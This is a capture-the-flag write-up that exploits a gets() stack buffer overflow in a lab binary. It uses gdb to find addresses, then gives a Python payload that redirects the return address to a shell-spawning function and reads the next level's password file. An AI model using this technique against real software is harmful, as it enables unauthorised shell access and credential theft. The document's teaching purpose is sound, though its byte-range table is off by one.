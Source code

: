 ## Buffer overflow with gets (level1)

This [binary](level1/source.c) uses gets() to fill a buffer from user input.
Gets is vulnerable since it does not check the buffer size when writing into it.
There is also a function run() which is not called by main but launches a shell.

All we have to do is to get the buffer address. Using gdb, I break in main just
before the gets call and get _eax_'s value:

```shell
# run gdb on the binary
gdb ./level1
# disassemble the main to get a look at the assembly code
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
# break before gets call
(gdb) b \*0x0804848d
Breakpoint 1 at 0x804848d
# start the program
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x0804848d in main ()
# print eax
(gdb) x $eax
0xbffffb10:     0x080484a0
```

0xbffffb10 is the address inside the _eax_ register and 0x080484a0 is the value
at this address. To check that this is really the start of the buffer we can
fill it with some random text and print it after:

```shell
# break on the instruction after the gets() call
(gdb) b *0x08048495
# continue
(gdb) c
Continuing.
# input some string
some string

Breakpoint 3, 0x08048495 in main ()
# print the string from the start of the buffer
(gdb) p (char *)0xbffffb10
$6 = 0xbffffb10 "some string"
```

Now we must write some data to the buffer until we overwrite the return address
value. This is possible because the stack grows 'downwards' from the highest
memory addresses to the lowest and that the function's arguments and return
address are pushed to the stack before its local variables. So we know that the
local buffer will be situated before the return address in memory. The return
address on x86 systems is always situated at ebp's value + 4:

```shell
(gdb) x $ebp + 4
0xbffffb5c:     0xb7e454d3
# this checks out, since 0xbffffb5c is greater than 0xbffffb10.
```

This means that when the main function's execution will be done the next
instruction executed after the ret will be at 0xb7e454d3. What we want, to get
into the shell, is to replace this value with the run() function's address.
First get the address:

```shell
# info address returns the address of the given symbol
(gdb) i addr run
Symbol "run" is at 0x8048444 in a file compiled without debugging.
```

Then we have all we need to build our payload. The size of our buffer is equal
to the address of the return address minus the start of the buffer:
`bffffb5c-bffffb10 = 76`. This means that our payload should look like that:

| byte ranges (inclusive) | data                       |
|-------------------------|----------------------------|
| [0 ... 76]              | whatever                   |
| [77 ... 80]             | run's address (0x08048444) |


```shell
# give the payload as input to level1
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' | ./level1
```

> Note that the return address bytes have been reversed since we're dealing with
> a little endian system.

The command above will output the fallowing, meaning that we indeed reached and
exeucted the run() function:

```
Good... Wait what?
Segmentation fault (core dumped)
```

However the shell does not wait because stdin has been closed after gets(). To
remdey this, we need to execute the payload command in a sub shell and to call
an other command that will keep the shell pipe open:

```shell
# keep the pipe open with cat
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
# then we have access to the shell
whoami # -> level2
cat /home/user/level2/.pass # -> [the flag]
```

